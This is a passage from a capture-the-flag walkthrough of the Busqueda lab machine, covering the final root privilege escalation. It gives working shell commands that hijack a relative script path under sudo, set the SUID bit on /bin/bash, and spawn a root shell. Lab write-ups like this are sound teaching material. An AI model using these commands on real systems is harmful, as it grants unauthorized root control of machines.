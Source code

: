 We can see that the full-checkup option is trying to **run a bash script in the working directory**, so we can hijack this path:

```bash
echo '#!/bin/bash' > full-checkup.sh
echo "" >> full-checkup.sh
echo "chmod 4755 /bin/bash" >> full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](/assets/Busqueda/15.png)
<br />
<br />
<br />

Great! We successfully set the **SUID bit** in the /bin/bash binary:
![](/assets/Busqueda/16.png)
<br />
<br />
<br />

Let's **elevate our privileges** and get the **root flag**:
```bash
bash -p
```
![](/assets/Busqueda/17.png)
<br />
<br />
<br />
